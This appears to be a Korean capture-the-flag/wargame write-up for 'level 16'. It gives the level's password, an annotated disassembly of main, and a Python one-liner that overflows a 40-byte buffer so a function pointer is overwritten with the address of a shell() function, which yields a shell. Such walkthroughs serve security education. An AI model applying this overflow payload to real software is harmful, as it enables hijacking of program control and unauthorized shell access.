



# level 16

* id : `level16`
* pw : `about to cause mass`



이번엔 함수가 여러개 겹쳐있다.

```python
# main
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38                     # 할당받은 버퍼 크기 (0x38 == 56)
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500 # printit() 함수 주소 0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]                 # buf 주소 [ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]       # call 함수 위치 [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
```

음.. 어셈을 읽어보니 `call`, 즉 `printit()` 함수에 해당하는게 `[ebp-16]` 에 있다.

아무래도 `shell()` 함수의 주소를 찾아서 `[ebp-16]`에 덮어씌우면 될듯 하다.



shell 의 주소는 0x080484d0 임을 확인했다.

익스를 짜보자.

```
(python -c "print 'A'*40 + '\xd0\x84\x04\x08'" ; cat) | ./attackme
```



GG!